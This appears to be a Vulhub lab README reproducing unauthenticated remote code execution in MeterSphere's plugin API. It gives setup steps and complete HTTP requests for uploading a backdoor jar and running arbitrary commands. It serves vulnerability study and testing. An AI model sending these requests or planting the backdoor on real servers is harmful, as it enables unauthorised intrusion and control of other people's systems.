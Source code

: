 # MeterSphere Plugin Endpoint Remote Code Execution

[中文版本(Chinese version)](README.zh-cn.md)

MeterSphere is a one-stop open source continuous testing platform under the GPL v3 open source license.

In the version v1.16.3 and before, MeterSphere's plugin API is unauthenticated and the attackers are able to upload plugins to the server and execute arbitrary code.

References:

- <https://xz.aliyun.com/t/10772>

## Vulnerable environment

Execute following command to start a MeterSphere server v1.16.3:

```
docker compose up -d
```

After the server is fully initialized, you can see the login page of MeterSphere on `http://your-ip:8081`.

## Exploit

Firstly, by visiting `http://your-ip:8081/plugin/list`, you can see that the success message is returned without being redirected to the login page, indicating that the plugin API can be accessed without authorization.

![](1.png)

Then, you should create a crafted evil plugin. Vulhub prepares a pre-built backdoor jar for it: <https://github.com/vulhub/metersphere-plugin-Backdoor/releases/tag/v1.0.1>.

Upload the evil jar plugin to `/plugin/add` interface:

```
POST /plugin/add HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJV2KX1EL5qmKWXsd
Content-Length: 11985

------WebKitFormBoundaryJV2KX1EL5qmKWXsd
Content-Disposition: form-data; name="file"; filename="metersphere-plugin-DebugSampler-1.0.1-jar-with-all-dependencies.jar"

[Paste your jar file]
------WebKitFormBoundaryJV2KX1EL5qmKWXsd--

```

![](2.png)

> **Take care of bytes encoding by yourself if you use Burpsuite to send the package.**

Your plugin will be in the plugin list if above processing is successful:

![](3.png)

Finally, use following request to execute arbitrary command:

```
POST /plugin/customMethod HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 89

{
  "entry": "io.metersphere.plugin.DebugSampler.UiScriptApiImpl",
  "request": "id"
}
```

![](4.png)
